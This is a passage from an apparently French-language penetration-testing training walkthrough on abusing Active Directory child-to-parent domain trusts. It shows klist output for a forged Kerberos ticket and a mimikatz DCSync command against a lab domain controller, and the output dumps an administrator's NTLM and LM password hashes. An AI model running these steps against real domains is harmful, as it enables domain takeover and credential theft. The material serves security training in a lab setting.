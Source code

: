   Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> klist

Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>	Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
	Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
	Start Time: 3/29/2022 10:06:41 (local)
	End Time:   3/29/2022 20:06:41 (local)
	Renew Time: 4/5/2022 10:06:41 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY
	Kdc Called:

```

Enfin, nous pouvons tester cet accès en effectuant une attaque DCSync contre le domaine parent, ciblant l' `lab_adm`utilisateur administrateur du domaine.

#### Effectuer une attaque DCSync

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0

```
